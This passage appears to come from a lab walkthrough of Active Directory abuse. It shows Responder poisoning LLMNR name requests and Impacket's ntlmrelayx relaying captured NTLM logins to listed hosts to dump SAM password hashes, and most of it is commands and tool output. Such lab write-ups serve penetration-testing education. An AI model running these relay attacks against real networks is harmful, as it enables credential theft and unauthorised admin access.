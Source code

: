 	[+] Generic Options:
		Responder NIC              [eth0]
		Responder IP               [192.168.200.101]
		Challenge set              [random]
		Don't Respond To Names     ['ISATAP']



	[+] Listening for events...


Start ntlmrelayx from shell-2

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf target.txt -smb2support
	[sudo] password for kali: 
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	[*] Protocol Client SMB loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client DCSYNC loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client SMTP loaded..
	[*] Running in relay mode to hosts in targetfile
	[*] Setting up SMB Server
	[*] Setting up HTTP Server
	[*] Setting up WCF Server

	[*] Servers started, waiting for connections
	
	
	
Now one of the user need to try to access an unknown or not exist share 

Computer-1 will nagigate

	\\idontexit

We will capture that Computer-1 request to relay our targets. If User who logged in computer-1 has Admin rights for our targets, we will get SAM hash of our targets


responder shell


	[+] Listening for events...
	[*] [LLMNR]  Poisoned answer sent to 192.168.200.100 for name idontexist
	[*] [LLMNR]  Poisoned answer sent to 192.168.200.100 for name idontexist

ntlmrelayx shell

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf target.txt -smb2support
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
